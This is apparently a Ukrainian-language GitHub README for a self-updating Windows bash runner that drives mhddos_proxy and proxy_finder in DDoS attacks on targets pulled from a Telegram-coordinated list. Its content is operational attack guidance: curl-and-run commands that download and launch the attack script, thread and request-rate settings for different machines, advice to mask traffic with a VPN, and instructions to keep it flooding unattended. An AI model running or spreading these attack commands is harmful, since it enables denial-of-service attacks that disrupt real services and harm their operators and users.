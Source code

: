 # Опис runner_for_windows

runner.sh - ПОВНІСТЮ АВТООНОВЛЮВАНИЙ (оновлює цілі та себе) bash-скрипт для Windows-машин, що керує [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy) та [proxy_finder](https://github.com/porthole-ascend-cinnamon/proxy_finder)  
Також він автоматично оновлює не лише свій скрипт та цілі, а й сам скрипт mhddos_proxy та proxy_finder  
Також скрипт імітує роботу людини (вимикає увесь ДДоС на 1-2 (рандомно) хвилин), щоб дати машині трохи відпочити
Скрипт розподіляє ваші машини по цілям: https://github.com/alexnest-ua/targets/blob/main/targets_linux (цілі беруться звідси: https://t.me/ddos_separ)  
  
[**Варіант для Mac**](https://github.com/alexnest-ua/auto_mhddos_mac)  
[**Варіант для Linux**](https://github.com/alexnest-ua/auto_mhddos_alexnest/tree/main)  
[**Варіант для Docker**](https://github.com/alexnest-ua/auto_mhddos_alexnest/tree/docker)   
[**Варіант для Android**](https://telegra.ph/mhddos-proxy-for-Android-with-Termux-03-31)   
  
  
можете запускати цей скрипт на увесь день та йти по своїм справам - він сам буде брати актуальні цілі (але перед тим ОБОВ'ЯЗКОВО встановіть VPN, який ніколи не відключиться сам: https://auto-ddos.notion.site/Cyberghost-f72074a09b224851b2058d559c0b2691 )  

**якщо запускаєте цей скрипт - інші атаки через Python не запускайте, бо при рестарті він вбиває усі процеси з Python (щоб старі атаки не накопичувалися)**
  
[**Налаштування**](#%D0%BD%D0%B0%D0%BB%D0%B0%D1%88%D1%82%D1%83%D0%B2%D0%B0%D0%BD%D0%BD%D1%8F-%D0%B2%D1%81%D1%82%D0%B0%D0%BD%D0%BE%D0%B2%D0%BB%D0%B5%D0%BD%D0%BD%D1%8F)  
[**Запуск атаки**](#%D0%B7%D0%B0%D0%BF%D1%83%D1%81%D0%BA-%D0%B0%D1%82%D0%B0%D0%BA%D0%B8)  
[**Приклади команд з --debug та без**](#%D0%BF%D1%80%D0%B8%D0%BA%D0%BB%D0%B0%D0%B4%D0%B8-%D0%BA%D0%BE%D0%BC%D0%B0%D0%BD%D0%B4-%D0%B7-%D1%80%D1%96%D0%B7%D0%BD%D0%B8%D0%BC%D0%B8-%D0%BF%D0%B0%D1%80%D0%B0%D0%BC%D0%B5%D1%82%D1%80%D0%B0%D0%BC%D0%B8)  



  
Канал, де координуються цілі: https://t.me/ddos_separ (звідти і беруться сюди цілі, тому якщо у вас на Windows запущено цей скрипт - то можете відповчивати, він все зробить за вас)  
чат де ви можете задати свої питання: https://t.me/+8swDHSe_ROI5MmJi  
також можете писати мені в особисті у телеграм, я завжди усім відповідаю: @brainqdead
  
Туторіал по створенню автоматичних та автономних Linux-серверів: https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5c  

## Налаштування (встановлення)
  
* щоб скачати на Windows-машину:  
йдемо сюди: https://telegra.ph/Vstanovlennya-mhddos-proxy-napryamu-na-vash-komp-03-27  
та пророблюємо 1 та 2 пункт (якщо раніше не зробили)  

після останнього пункту (встановлення Git) відкриваємо Git Bash:  
![image](https://user-images.githubusercontent.com/74729549/163037827-88e246e2-2187-4768-a7a1-4afec1d78e83.png)  
відкриється наступне вікно:  
![image](https://user-images.githubusercontent.com/74729549/163038391-896d66ef-ceeb-42b4-aa92-53b68abb59f1.png)


## Запуск атаки:  
**ПРИ РЕСТАРТІ КОМП'ЮТЕРА / АВТО-СКРИПТА СПЕРШУ ОБОВ'ЯЗКОВО ПОТРІБНО ВІДКРИТИ САМЕ Git Bash і ввести наступну команду, яка саме все завантажить:**
```shell
curl -LO https://raw.githubusercontent.com/alexnest-ua/runner_for_windows/main/runner.sh && bash runner.sh
```
* Буде запущено атаку з наступними параметрами за замовчуванням: num_of_copies=1 threads=2000 rpc=1000 debug="" vpn=""(1 список цілей, 2000 потоків, 1000 запитів на проксі перед відправкою на ціль, без дебагу, без атаки через ваш ІР) та автоматично запустить паралельно наш [proxy_finder](https://github.com/porthole-ascend-cinnamon/proxy_finder)  

Тепер кожні 5 хвилин воно буде оновлювати список проксі, а кожні 20 хвилин - цілі атаки та перевіряти наявність оновлення (та встановлювати його якщо воно є)  

**Далі можна просто ЗГОРНУТИ вікно і воно буде працювати нескінченно в фоні**  
***щоб зупинити процес - натисніть Ctrl+C (або якщо не спрацює просто закрийте вікно з атакою)***  

**!!!УВАГА!!!** runner.sh підтримує наступні параметри (САМЕ У ТАКОМУ ПОРЯДКУ ТА ЛИШЕ У ТАКІЙ КІЛЬКОСТІ(мінімум 3)), але можно і без них:  
`curl -LO https://raw.githubusercontent.com/alexnest-ua/runner_for_windows/main/runner.sh && bash runner.sh [num_of_copies] [threads] [rpc] [debug] [vpn]`  
- num_of_copies - кількість атакуємих списків цілей за один прохід (але не менше 1, та не більше 3, бо більше 3-ох знижує ефективність)
- threads - кількість потоків (але не менше 1000, та не більше 2000 для одного ядра, 5000 для 2-4 ядер, 10000 для 4+ ядер)
- rpc - кількість запитів на проксі перед відправкою на ціль (але не менше 1000, та не більше 3000)
- debug - можливість дебагу (якщо хочете бачити повний інфу по атаці - у 4-ий параметр додайте --debug)
- vpn - використання вашого ІР у атаці разом з проксі
  
### Приклади команд з різними параметрами:
  
Команди обовязково потрібно вводити в програмі Git Bash  
  
* У всіх варіантах буде автоматично запущено паралельно наш [proxy_finder](https://github.com/porthole-ascend-cinnamon/proxy_finder)  
  
1. ***Для лінивих*** (буде обрано за замовчуванням: num_of_copies=1 threads=2000 rpc=1000 debug="" vpn=""(1 список цілей, 2000 потоків, 1000 запитів на проксі перед відправкою на ціль, без дебагу, без атаки через ваш ІР) та автоматично запустить паралельно наш [proxy_finder](https://github.com/porthole-ascend-cinnamon/proxy_finder))
```shell
curl -LO https://raw.githubusercontent.com/alexnest-ua/runner_for_windows/main/runner.sh && bash runner.sh
```
  
**CPUs** - це ядра вашого процесора - зазвичай ядер у два рази менше ніж потоків 
  
2. Слаба машина(1 CPU), саме ці параметри за замовчуванням:
```shell
curl -LO https://raw.githubusercontent.com/alexnest-ua/runner_for_windows/main/runner.sh && bash runner.sh 1 2000 1000
```

3. Середня машина(2-4 CPUs):
```shell
curl -LO https://raw.githubusercontent.com/alexnest-ua/runner_for_windows/main/runner.sh && bash runner.sh 1 3500 2000
```

4. Нормальна машина(4-8 CPUs):
```shell
curl -LO https://raw.githubusercontent.com/alexnest-ua/runner_for_windows/main/runner.sh && bash runner.sh 2 6500 2500
```

5. Потужна машина(9+ CPUs):
```shell
curl -LO https://raw.githubusercontent.com/alexnest-ua/runner_for_windows/main/runner.sh && bash runner.sh all 7500 3000
```

  
*також ви можете змінювати параметри на будь-які інші значення, але я рекомендую саме ці.*  
*також можете додавати **4-тим** параметром --debug, що слідкувати за ходом атаки, та **5-тим** параметром --vpn, щоб атакувати ще й через свій ІР разом з проксі, наприклад:*  
```shell
curl -LO https://raw.githubusercontent.com/alexnest-ua/runner_for_windows/main/runner.sh && bash runner.sh 1 2000 1000 --debug --vpn
```
  
* Приклад **БЕЗ** параметру --debug:  
![image](https://user-images.githubusercontent.com/74729549/168058965-1116eb6a-6fc4-45d5-b2a8-eb7f5529ab87.png)  
***наступні 5 хвилин буде виводитись лише інформація від proxy_finder про пошук проксі, але атака теж йде паралельно!***  
* Приклад **З** параметрами --debug та --vpn:  
![image](https://user-images.githubusercontent.com/74729549/168068441-0be60ba6-49c7-41de-a89c-c50410a50fef.png)  
  
  
  
Далі кожні 5 хвилин воно буде оновлювати список проксі, а кожні 20 хвилин - цілі атаки та перевіряти наявність оновлення (та встановлювати його якщо воно є)  
  
  

* ***щоб зупинити процес - натисніть Ctrl+C (або якщо не спрацює просто закрийте вікно з атакою)***    

УВАГА!!! Скрипт при рестарті (кожні 20 хвилин) вбиває запущені скрипти саме з mhddos_proxy, тому якщо запускаєте цей скрипт на Windows-машині, то свої атаки mhddos_proxy запускайте на [іншій машині](https://auto-ddos.notion.site/dd91326ed30140208383ffedd0f13e5c)


## Список цілей  

  
runner.sh підтримує единий [список цілей](https://raw.githubusercontent.com/alexnest-ua/targets/main/targets_linux), який можна тримати на github і постійно оновлювати.  
  
  
  
Цілі не обов'язково видаляти із списку. Їх можна просто закоментувати і розкоментувати пізніше, якщо вони знов знадобляться. Скрипт використовує лише строки, які починаються не на #.  
#test1
